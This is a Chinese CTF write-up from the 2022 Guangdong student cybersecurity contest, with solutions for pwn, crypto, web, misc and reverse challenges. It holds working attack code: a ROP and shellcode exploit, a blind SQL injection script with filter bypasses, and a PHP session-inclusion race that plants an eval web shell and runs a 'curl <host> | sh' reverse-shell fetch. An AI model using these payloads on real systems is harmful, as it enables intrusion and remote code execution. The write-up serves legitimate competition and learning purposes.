



# 2022广东省赛
>**(第二届广东大学生网络安全攻防大赛)**  
>**【HED CTF / COMPASS CTF】 WriteUp**  
>**Rank:9** （total 504） Solve:8 Pts:1947

## Pwn
### Pwn | jmp_rsp (235pt)
**写WP时候发现远程的bss是RWX的，直接ret2bss就完了，为什么IDA和readelf都说bss是RW的呢？**  
**更惨的是，这题好像有jmp rsp的gadget。。。**  
**怎么有不读题就开始造链子的人呢 XD 可能这就是我变不PWN的原因吧** 

checksec显示有canary，其他保护全无，栈段RWX  
IDA打开，程序逻辑非常简单，在read处也无canary，但是看起来这是个静态编译的二进制，没有引用的外部函数。  
先想到的是：写bss格式化字符串 + printf rop泄露栈地址 + 栈上ret2shellcode  
但是大概是没设置小缓冲区的原因，程序直到退出才吐出输出，在远程就拿不到任何输出，所以考虑不利用输出的getshell  
这题没有libc也不能ret2dl，但是有mprotect函数，可以改段权限，于是构造：  
shellcode写到bss + mprotect改bss权限 + bss上ret2shellcode  
 

exp:
```python
from pwn import p64
from pwn import *

# context.log_level = "debug"
e = ELF('jmp_rsp')
p = remote("47.106.122.102", 45286)
# p = e.process()
read_addr = 0x449380  # elf.sym["read"]
vul_addr = 0X400b5d
mprot_addr = 0x44a160
printf = 0x40f690
rdi = 0x401902
rsi_r15 = 0x401900
bss_addr = e.bss()
print(bss_addr)
p_write_bss = b'a' * 0x88 + p64(rdi) + p64(0) + p64(rsi_r15) + p64(bss_addr) + b'a' * 8 + p64(read_addr) + p64(vul_addr)
p.send(p_write_bss + b'c' * (0x100 - len(p_write_bss)))
shell_code = \
    b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
p.send(shell_code + b'c' * (0x100 - len(shell_code)))

payload = b'a' * 0x88 + p64(0x4018F5) + p64(vul_addr) + p64(0) + p64(1) + p64(mprot_addr) + p64(7) + p64(0x100000) + p64(0x600000) + p64(bss_addr)
p.send(payload + b'c' * (0x100 - len(payload)))
p.interactive()
```
## Crypto
### Crypto | crypto-xor2 (114pt)
想起了HackNat里边的一个剧情：一个人把他的密码设成\*\*\*\*\*\*\*，这样如果有一天密码被盗了，别人也会以为没拿到真正的密码。    
队里密码师傅说是智商检测题，她说是就是吧...  

很简单的异或加密，枚举 key 再异或回来即可。

```python
d = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-=[]\\;',./`~!@#$%^&*()_+{}|:\"<>?"
e = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_-{}"

with open("cipher", "r") as f:
    cipher = f.read()

for o in range(0, len(d)):
	for p in range(0, len(d)):
		for q in range(0, len(d)):
			for r in range(0, len(d)):
				key = d[o] + d[p] + d[q] + d[r]
				flag = ""
				f = True
				for i in range(len(cipher)):
					m = ord(cipher[i]) ^ ord(key[i%4])
					flag += chr(m)
					if (e.find(chr(m)) == -1):
						f = False
						break
				if f:
					print(flag, key)
```

`flag{fccb0665-bce5-d329-aca7-99179bdc9ed3}`

没想到这个 key 就是 `xxxx`，flag 也没有 padding，小丑竟是我自己。

## Web
### Web | easy_ctf (141pt)

把内容拿出来，然后统计一下，再排个序，最后提交一下就行了。

``` python
import requests
import re

RE = re.compile(r'^([a-zA-Z0-9]*)<td>', re.MULTILINE)

def f(r):
    p = {}
    for c in r:
        if c in p:
            p[c] += 1
        else:
            p[c] = 1
    a = [ (v, k) for (k, v) in p.items() ]
    a = sorted(a)
    return ''.join([ c[1] for c in a ])

s = requests.Session()
r = s.get('http://120.79.191.238:42399')

while True:
    print(r.text)
    m = re.search(RE, r.text)
    a = m.group(1)
    a = f(a)

    r = s.post('http://120.79.191.238:42399', data={'ans': a})
```

### Web | easysql (833pt)
经测试和观察，~~不难~~发现广告名是是有注入点的，可以用 `'||{sql}||'` 的方式注入。然后广告提交之后，可以查看详情，通过观察这条广告是否正常显示，就可以知道 `{sql}` 的条件是否为真。所以可以用盲注。  

并且可以发现，广告名是有关键词过滤的，包括 `in`, `or`, `and`, `union`, `password` 等，其中 `and` 和 `or` 可以用 `&&` 和 `||` 绕过。  

然后由于屏蔽了 `in` 和 `or` 导致没有办法通过 `information_schema` 或 `mysql.innodb_table_stats` 查询表名和列名，且 MariaDB 没有 sys 库。  

故使用伟大的盲猜方法(指猜了好几个小时)，猜出里面有一个 `ads` 表，里面有 22 列；一个 `users` 表，有 `id`, `name` 和感觉有的 `password` 三列（但是并没有什么卵用，因为 admin 帐号啥都没有）。  

然后又使用盲猜大法(admin的md5搜到了极其相似的题目，考虑可能有flag字段/表/库)，找到了一个 `flag` 表，然后在未知列名的情况下，用 `SELECT (SELECT * FROM flag) >= (SELECT 1, {string})` 来盲注，就可以拿到一个没有区分大小写的 flag。   

小小爆破了一下flag，因为太菜了没不到大小写敏感的注入查询方法（过滤了bINary，MariaDB还没有json）  
然后又 xjb 枚举，发现 flag 只有 `sql` 的首位大写，即 `flag{Sql_1nj3cti0n_1s_s0_easy}`，提交可过。

``` python
import requests
import re

cookies = {'PHPSESSID': '_______________'}
RE = re.compile(r'detail\.php\?id=(\d+)')

def clear_list():
    requests.get('http://120.79.141.85:47930/empty.php', cookies=cookies)

def add_ads(title):
    global aid
    payload = {'title': title, 'content': 'Elaina is best', 'ac': 'add'}
    r = requests.post('http://120.79.141.85:47930/addads.php', cookies=cookies, data=payload)
    aid += 1
    assert '已发送申请' in r.text, title

def check_sql(sql):
    global aid
    if aid % 10 == 0:
        clear_list()
        add_ads('1')
    sql = sql.replace(' ', '/**/')
    add_ads(f"'||{sql}||'")
    requests.get(f'http://120.79.141.85:47930/index.php', cookies=cookies)
    r = requests.get(f'http://120.79.141.85:47930/detail.php', params={'id': str(aid)}, cookies=cookies)
    return '待管理确认' in r.text

class CharBinarySearch:
    def __init__(self):
        self.l = 0
        self.r = 128

    def is_done(self):
        return self.l + 1 >= self.r

    def middle(self):
        return (self.l + self.r) // 2

    def update(self, r):
        if r:
            self.l = self.middle()
        else:
            self.r = self.middle()

def main():
    global aid
    aid = 0

    clear_list()
    add_ads('1')
    r = requests.post('http://120.79.141.85:47930/index.php', cookies=cookies)
    aid = int(re.search(RE, r.text).group(1))
    print(f'Initial ID: {aid}')

    # # 可爆破出列数
    # for i in range(1, 64):
    #     s = ','.join(["''"] * i)
    #     r = check_sql(f"(SELECT (SELECT {s})<(SELECT * FROM flag LIMIT 1))=true")
    #     print(i, r)

    content = ''
    for i in range(len(content) + 1, 128):
        s = CharBinarySearch()
        while not s.is_done():
            # r = check_sql(f"(SELECT HEX(SUBSTR(database(),{i},1))>=HEX({s.middle()}))")

            p = content + chr(s.middle())
            p = hex(int.from_bytes(p.encode(), 'big'))
            r = check_sql(f"(SELECT (SELECT * FROM flag) >= (SELECT 1, {p})) = 1")
            # r = check_sql(f"((SELECT HEX(SUBSTR(name,{i},1)) FROM users LIMIT 1 OFFSET 0)>=HEX({s.middle()}))")

            print(f'{i} {s.middle()} => {r}')
            s.update(r)
        content += chr(s.l)
        print(content)

if __name__ == '__main__':
    main()
```

### Web | in (138pt)
随便点点，发现http://119.23.247.96:45837/action.php?file=2.txt 可以读文件，尝试包含action.php自身，发现卡顿且无返回，说明包含方式很可能是include  
先看一眼服务器是apache，不能包含日志拿shell，于是考虑看看PHP的源码  
伪协议读到源码http://119.23.247.96:45837/action.php?file=php://filter/convert.base64-encode/resource=action.php  
开头看到session_start()大概率是session包含，偷懒直接用session竞争的板子拿shell
```python
import io
import requests
import threading

sessid = 'TGAO'
data = {"cmd": "system('curl 106.52.237.196 | sh');"}


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://119.23.247.96:45837/action.php',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('tgao.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post('http://119.23.247.96:45837/action.php?file=/tmp/sess_' + sessid, data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```
运行后立刻在vps上成功收到了反弹的shell（应该不用这么暴力也能解）  

## MISC 

### Misc | 复合 (277pt)
套娃题。

观察到可疑 HTTP 请求，导出响应文件。  


发现所有的文件后缀都不符合真实的文件类型，逐一修改文件后缀名。  
其中 md 文件看文件尾能知道是 zip，但是它的文件头坏了。通过对比正常的 zip 文件，发现只是缺少了最开始的两个 bytes，手动补全即可。  


解压缩 `pass.zip`，得到纯文本文件 `Eva`。  


观察到大量的 `=E2=80=82`，有点像 unicode 控制字符，全部换成空格。行尾的 `=` 似乎代表着换行，全部删掉。这样就可以得到密文。

```txt
Emklyusg gni bvvymlag tsqic colz jxmoxvl tiwhz ebmee, Zhjeoig Krpvpi-Zgvlyvx Evdr or olv Rbtm bl Gcscckh une fz e tftstrtkdrx rxeb suv olfqx dpb tizh km kliq ox hsjr: mom luyik, kfx dwhrh-wi iympwagp, vru ral qzveomvlm. Aw fgc olrr fhvl nivpkf vhzr vvjjvqlpwagpn jrje pvgu xcijc vhbrmsmmvq bz vbz xj jrsea bukq wyk kxymye xj hvqvyqok xcid. Uav jrorb cfsgn knt oisn uahb vz mn pzix aw ok sgh? Nfh aznorzh zl plagkvi wtgxubvlmx qvbbjqak hvvvq gvb gxc os sc khbvurvp? Wjtn qf rmai zq yhvggwomt.Ygk euu gvyxfm bx vt xci kylr-weoiixvb btxrxeommc hm kbtxzqgmkhzl siymtggl knt xmycw vsivs xci mgkacr uj kekgxukr? Kzzr scyvzr seiexcw-jiek mimkgtaqikw ns xpxhbye migictzmq zlz ticlzcek, tccjgvpiay azvv dttwhypt xzkx-kzvbii, xiybumq zs nivi xmnvimzrtw bu iyr xcmeel, jiek sa trrblvgy tmsdgglvgrc vqflz aprs. Xj wlaa wmeysiw, kfx apbakcx fd kliqorb e emolt zgc nivk t wzblpdkrrx difzi jj kgfl. Eue wkieb avcey vzeuggn iouyo ayym umikv cegnxumq? Zldw hsxzbvur cej zxlv rrslyvlmsg ntwriicw vdrx xci pctya oe xcsjc pow hyi gmkckhbhxi dr dcwpknr iyytympwa. 
```

大小写、单词长度和标点符号都非常像自然语言。  
`e emolt zgc nivk t` 的 `e` 和 `t` 应该都是代表 `a`，也就是说这不是一一对应的置换。用 quipquip 也没有跑出结果。（密文是全可见字符，标点正确，明文推测也是全可见字符，且不是单表替换，因此）凭感觉是 Vigenère Encode，但是不知道 key 是什么，反正不是文件名 `Eva`。  
后来在 `flaggggggg.doc` 中找到了隐藏的白色小字，`Key:everything`。于是此题结束。  

```
Arguably the greatest novel ever written about aging, Gabriel Garcia-Marquez Love in the Time of Cholera may be a challenging text for those who need to read it most: the young, the would-be rational, and the impatient. To say that many health care professionals fall into these categories is not to fault them but merely to describe them. Who being young can know what it is like to be old? Who trained in western scientific medicine dares not try to be rational? Flag is life is fantastic.And who caught up in the task-oriented imperative of contemporary medicine can truly claim the virtue of patience? Even before managed-care initiatives so greatly increased the pressure, physicians were famously time-driven, trained to seek efficiency in all things, care of patients prominently among them. To such persons, the thought of reading a novel may seem a profligate waste of time. Why spend hours reading about what never happened? This question has been eloquently answered over the years by those who use literature in medical education. 
```

```flag{life_is_fantastic}```

### Misc | 签到题 (42pt)
签到，提前关注主办方公众号是好文明，光速一血

## Reverse
### Reverse | pyre (165pt)
使用GitHub上的pyinstxtractor.py解包exe，被提醒  
```
[+] Python version: 37
[!] Warning: This script is running in a different Python version than the one used to build the executable.  
[!] Please run this script in Python37 to prevent extraction errors during unmarshalling  
```
于是更换到python3.7再次运行，得到了正常解包的1.pyc  
pycdc还是不干活，于是试试在python3.7-3.8工作良好的uncompyle6反编译，得到清晰的代码：
```python
def check():
    a = input('plz input your flag:')
    c = [144, 163, 158, 177, 121, 39, 58, 58, 91, 111, 25, 158, 72, 53, 152, 78, 171, 12, 53, 105, 45, 12, 12, 53, 12, 171, 111, 91, 53, 152, 105, 45, 152, 144, 39, 171, 45, 91, 78, 45, 158, 8]
    if len(a) != 42:
        print('wrong length')
        return 0
    b = 179
    for i in range(len(a)):
        if ord(a[i]) * 33 % b != c[i]:
            print('wrong')
            return

    print('win')


check()
```
仿射，但是简单遍历输入就能得到正确的flag：
```python
c = [144, 163, 158, 177, 121, 39, 58, 58, 91, 111, 25, 158, 72, 53, 152, 78, 171, 12, 53, 105, 45, 12, 12, 53, 12,
     171, 111, 91, 53, 152, 105, 45, 152, 144, 39, 171, 45, 91, 78, 45, 158, 8]
for i in c:
    for a in range(32, 127):
        if a * 33 % 179 == i:
            print(chr(a), end="")
```